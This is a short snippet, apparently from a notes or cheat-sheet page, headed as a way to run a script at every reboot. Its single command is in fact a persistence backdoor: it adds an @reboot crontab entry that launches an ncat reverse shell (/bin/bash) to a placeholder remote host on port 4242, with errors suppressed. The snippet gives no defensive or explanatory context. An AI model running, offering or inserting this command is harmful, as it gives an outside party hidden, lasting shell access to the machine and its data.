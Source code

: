
run a script everytime a system reboots
``(crontab -l ; echo "@reboot sleep 200 && ncat rhost 4242 -e /bin/bash")|crontab 2> /dev/null
